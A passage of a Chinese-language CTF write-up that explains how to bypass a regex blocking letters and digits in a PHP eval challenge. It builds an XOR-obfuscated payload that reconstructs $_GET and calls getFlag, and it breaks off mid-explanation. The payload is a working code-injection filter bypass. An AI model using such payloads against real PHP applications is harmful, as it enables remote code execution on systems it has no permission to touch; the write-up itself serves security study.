 ![23](23.png)

这道题目实际上是考察不包含字母数字的webshell利用，大家可以参考 **phithon** 师傅的文章：[一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html) ，我们只需要构造并调用 **getFlag** 函数即可获得flag。排除这里正则的限制，正常的想法payload应该类似这样（把上图代码中的正则匹配注释掉进行测试）：

```php
index.php?code=getFlag();
index.php?code=$_GET[_]();&_=getFlag
```

![24](24.png)

我们现在再来考虑考虑如何绕过这里的正则。游戏规则很简单，要求我们传入的 **code** 参数不能存在字母及数字，这就很容易想到 **phithon** 师傅的 [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html) 一文。通过异或 **^** 运算、取反 **~** 运算，构造出我们想要的字符就行。这里我们直接看 **payload** ：

```php
?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=getFlag
```

我们来拆解分析一下 **payload** ，**eval** 函数会执行如下字符串：

